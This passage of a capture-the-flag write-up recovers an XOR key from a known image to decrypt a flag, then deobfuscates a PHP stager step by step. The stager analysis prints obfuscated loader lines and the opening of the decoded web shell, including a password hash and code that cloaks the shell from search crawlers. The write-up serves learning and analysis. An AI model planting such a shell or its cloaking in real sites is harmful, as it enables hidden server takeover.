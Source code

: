 Well, long story short after about an hour of writing a brute-force script, the first part of the `flag.txt` file was NOT `flag{`!! To solve this I managed to find the original decrypted `Bliss_Windows_XP.png` and XORd it with the provided encrypted version, and got: 

```
00000000  63 6f 73 6d 6f 62 6f 69 63 6f 73 6d 6f 62 6f 69  |cosmoboicosmoboi|
```

Putting that into the executable as the key resulted in the following flag file:

```
00000000  4b 65 65 70 69 6e 67 20 6d 79 20 66 6c 61 67 20  |Keeping my flag |
00000010  68 65 72 65 20 73 6f 20 69 74 27 73 20 73 61 66  |here so it's saf|
00000020  65 21 0a 0a 66 6c 61 67 7b 30 39 32 37 34 34 62  |e!..flag{092744b|
00000030  35 35 34 32 30 30 33 33 63 35 65 62 39 64 36 30  |55420033c5eb9d60|
00000040  39 65 61 63 35 65 38 32 33 7d                    |9eac5e823}|
```

Fortunately, the same key is used for every encrypted file, otherwise this would not have worked. This was my favorite challenge so far and I would love to see how others have solved it as well :)

## PHP Stager
This challenge was a PHP script that contained a large encoded string variable. To solve it I simply ran it step by step, printing every intermediate variable as I went. For instance, the script contains the following obfuscated code:

```
$k = $oZjuNUpA325('n'.''.''.'o'.''.''.'i'.''.'t'.''.'c'.''.'n'.''.'u'.'f'.''.''.''.''.'_'.''.''.''.'e'.''.'t'.''.'a'.''.'e'.''.''.''.''.'r'.''.''.''.''.'c');
```

I want to know the value of $k, so after this line I added `print_r($k);` which gave me its value:

```
create_function
```

This is used on the next line:

```
$k("/*XAjqgQvv4067*/", $fsPwhnfn8423( deGRi($fsPwhnfn8423($gbaylYLd6204), "tVEwfwrN302")));
```

Printing some more variables:

```
$fsPwhnfn8423 = base64_decode
```

The end of the script becomes:

```
$c = create_function("/*XAjqgQvv4067*/", base64_decode( deGRi(base64_decode($gbaylYLd6204), "tVEwfwrN302")));
```

If we get the value of `base64_decode( deGRi(base64_decode($gbaylYLd6204), "tVEwfwrN302"))`, it returns an embedded PHP script:

```
global $auth_pass,$color,$default_action,$default_use_ajax,$default_charset,$sort;
global $cwd,$os,$safe_mode, $in;
$auth_pass = 'edbc761d111e1b86fb47681d9f641468';
$color = "#df5";
$default_action = 'FilesMan';
$default_use_ajax = true;
$default_charset = 'Windows-1251';
if(!empty($_SERVER['HTTP_USER_AGENT'])) {
    $userAgents = array("Google", "Slurp", "MSNBot", "ia_archiver", "Yandex", "Rambler");
    if(preg_match('/' . implode('|', $userAgents) . '/i', $_SERVER['HTTP_USER_AGENT'])) {
        header('HTTP/1.0 404 Not Found');
        exit;
    }
```